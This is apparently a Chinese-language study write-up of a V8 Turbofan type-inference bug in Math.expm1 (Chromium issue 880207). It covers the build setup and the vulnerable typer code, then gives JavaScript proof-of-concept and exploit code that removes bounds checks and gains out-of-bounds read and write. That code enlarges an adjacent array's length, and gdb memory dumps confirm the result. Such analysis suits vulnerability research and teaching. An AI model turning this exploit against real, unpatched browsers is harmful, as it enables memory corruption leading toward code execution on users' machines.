




## 环境搭建

漏洞issue：https://bugs.chromium.org/p/chromium/issues/detail?id=880207

Ubuntu20.04LTS x64

```shell
git checkout 7.0.290
gclient sync
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

为了能消除checkbounds节点，还需要在args.gn里加一句`v8_untrusted_code_mitigations = false`

```shell
> cat args.gn                   
is_debug = true
target_cpu = "x64"
v8_enable_backtrace = true
v8_enable_slow_dchecks = false
v8_optimized_debug = false
v8_untrusted_code_mitigations = false
```

## 漏洞分析

漏洞代码：

```cpp
// src/compiler/typer.cc
Type Typer::Visitor::JSCallTyper(Type fun, Typer* t) {
  if (!fun.IsHeapConstant() || !fun.AsHeapConstant()->Ref().IsJSFunction()) {
    return Type::NonInternal();
  }
  JSFunctionRef function = fun.AsHeapConstant()->Ref().AsJSFunction();
  if (!function.shared().HasBuiltinFunctionId()) {
    return Type::NonInternal();
  }
  switch (function.shared().builtin_function_id()) {
    // ............................ //
    // Unary math functions.
    case BuiltinFunctionId::kMathAbs:
    case BuiltinFunctionId::kMathExp:
    case BuiltinFunctionId::kMathExpm1:
      return Type::Union(Type::PlainNumber(), Type::NaN(), t->zone());			// [1]
	// ............................. //
}
```

该函数是在turbofan的typer阶段对JSCall节点进行类型推断的时候调用的，可以看到如果调用的函数是MathExpm1，它将推断该JSCall的type为`Type::Union(Type::PlainNumber(), Type::NaN(), t->zone());`，也就是说是 `Type::PlainNumber() U Type::NaN()`。从以下定义：

```cpp
#define INTERNAL_BITSET_TYPE_LIST(V)                                      \
  // ....  //
  V(OtherNumber,     1u << 4)  \
  // .... //

#define PROPER_BITSET_TYPE_LIST(V) \
  V(None,                     0u)        \
  // ........................ //
  V(MinusZero,                1u << 11)  \
  V(NaN,                      1u << 12)  \
  // ....................... // 
  V(PlainNumber,                  kIntegral32 | kOtherNumber) \
  // ..................... //
  V(MinusZeroOrNaN,               kMinusZero | kNaN) \
  // ....................  //
```

可以看出-0，NaN都是比较特别的，而 `Type::PlainNumber() U Type::NaN()`并为包含-0，但是MathExpm1实际在运行的时候的的确确会返回-0：

```cpp
V8 version 7.0.290
d8> Object.is(Math.expm1(-0),-0);
true
d8> 
```

这导致turbofan对Math.expm1的返回类型判读出错，而该出错会继续影响到后续的优化阶段

### poc

```javascript
function foo() {
  return Object.is(Math.expm1(-0), -0);
}

console.log(foo());
%OptimizeFunctionOnNextCall(foo);
console.log(foo());
```

存在漏洞的版本会输出：

```cpp
true
false
```

在优化后，返回了错误的结果

### exploit

根据https://bugs.chromium.org/p/chromium/issues/detail?id=762874 issue里的手法，就是利用turbofan对数组范围的预测错误从而消除checkbounds节点来造成越界读写，比如：

```javascript
function foo(x){
    var a = [0.1,0.2,0.3];   // a.length = 3
    var idx = Object.is(Math.expm1(-0), -0); // turbofan : false , really true
    										// turbofan : range(0,0) , really range(1,1)
    return a[idx * 1337];	// turbofan 认为idx*1337为0，小于数组a的长度，所以不需要checkbounds节点，
    						// 而实际运行时该值会是1337，从而导致越界读
}
```

大概就是这么个意思

回到漏洞，在turbofan执行的过程中，有3个阶段都会对节点的类型进行推断，分别是typer，load elimination和simplified lowering这3个阶段，而且两个阶段还会进行常量折叠，如果在前两个阶段Object.is的结果被标记为false，那Object.is节点就会被简单的替换成一个false的常量节点，这样就无法进行后续的利用，这点可以在turbolizer中看到：



Object.is这里是一个SameValue节点，在该阶段后，其就被换成了一个false的常量：




而为了在simplified lowering阶段消除checkbounds节点，我们应该要使其在前两个阶段（typer和load elimination）不被常量折叠，这时候就要依靠load elimination和simplified lowering两个阶段间的escape analysis阶段，该阶段简单来说就是分析该函数里的对象有没有逃逸（我的理解是没有逃出该函数的作用域），这样就不需要在堆中分配该对象，直接使用栈或者寄存器（这样会更高效），以下是一个简单的例子：

```javascript
function foo(){
    var o = {x:1};
    return o.x;
}
```

会被替换成：

```javascript
function foo(){
    var o_x = 1;
    return o_x;
}
```

所以我们把-0藏在一个对象中，修改后的poc：

```javascript
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let o = {mz: -0};
    let b = Object.is(Math.expm1(x), o.mz);
    return a[b * 1337];
}


for(var i = 0;i < 30000;i++)
    foo("0");

console.log(foo(-0));
```

运行后会输出一个不是0.1的浮点数，foo也不会因为out-of-bound而被deopt

#### foo("0")

这里有个细节就是我们用的是foo("0");来触发优化，而不是foo(-0)，这样做的原因是，如果只是foo(-0)或者foo(0)，就是纯数字的话，Math.expm1会变成NumberExpm1节点而不是JSCall了，而SameValue会在loadelimination阶段后变成false节点：



load elimination阶段：



这导致后续漏洞无法利用了，因为false节点会变成0；该替换是发生在loadelimination阶段的ConstantFoldingReducer里

经过调试发现，在loadelimination阶段的TypeNarrowingReducer里，samevalue节点的输入1，也就是LoadField类型被推断为-0而不是Number，导致后面samevalue直接被替换为false，因为`Type::PlainNumber() U Type::NaN()`不包含-0；

而在换成了foo("0")之后，turbofan其实编译了两遍foo函数，第一次生成的也是NumberExpm1节点，但是由于我们是传入的参数为“0”，是一个字符串，所以第一次被优化的foo函数会被deopt，第二次turbofan编译foo函数的时候，它知道了参数不一定是Number，所以生成的就是JSCall节点（builtin的Math.exmp1函数可以接受任意类型的参数）

但是还有个疑问就是不知道为啥在第二次编译foo后，与samevalue节点相连的LoadField节点在TypeNarrowingReducer类型就被推断为Number了

## 漏洞利用

前面我们可以越界读了，同理我们也可以越界写：

```javascript
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let b = [1.1,2.2,3.3,4.4];
    let c = new LeakArrayBuffer(0x3000);
    let o = {mz: -0};
    let idx = Object.is(Math.expm1(x), o.mz);
    a[idx*13] = 8.691694759794e-311; // 0x1000 << 32 as double
    oob_arr = b;
    target_buffer = c;
    return idx*32;
}

class LeakArrayBuffer extends ArrayBuffer {
    constructor(size){
        super(size);
        this.slot = 0xb33f;
    }
}

var oob_arr;
var target_buffer;

foo(0);
for(var i = 0;i < 30000;i++)
    foo("0");

var res = foo(-0);
console.log(oob_arr.length);

%DebugPrint(oob_arr);
%DebugPrint(target_buffer);
%SystemBreak();
```

gdb中：

```cpp
4096
0x1f707ef1f741 <JSArray[4096]>
0x1f707ef1f761 <ArrayBuffer map = 0x3094f388c7f1>

pwndbg> telescope 0x1f707ef1f740 30
00:0000│  0x1f707ef1f740 —▸ 0x3094f3882931 ◂— 0x4000011a3776822
01:0008│  0x1f707ef1f748 —▸ 0x11a377682d29 ◂— 0x11a3776828
02:0010│  0x1f707ef1f750 —▸ 0x1f707ef1f711 ◂— 0x11a3776835
03:0018│  0x1f707ef1f758 ◂— 0x100000000000
04:0020│  0x1f707ef1f760 —▸ 0x3094f388c7f1 ◂— 0x9000011a3776822
05:0028│  0x1f707ef1f768 —▸ 0x11a377682d29 ◂— 0x11a3776828
06:0030│  0x1f707ef1f770 —▸ 0x11a377682d29 ◂— 0x11a3776828
07:0038│  0x1f707ef1f778 ◂— 0x300000000000
08:0040│  0x1f707ef1f780 —▸ 0x55a56e4601a0 ◂— 0x0
09:0048│  0x1f707ef1f788 ◂— 0x4
0a:0050│  0x1f707ef1f790 ◂— 0x0
0b:0058│  0x1f707ef1f798 ◂— 0x0
0c:0060│  0x1f707ef1f7a0 ◂— 0xb33f00000000
```

oob_arr的element就在它自己的低地址处，ArrayBuffer和oob_arr相邻，长度也被我们改为了0x1000

## 参考链接

https://bugs.chromium.org/p/chromium/issues/detail?id=880207

https://abiondo.me/2019/01/02/exploiting-math-expm1-v8/
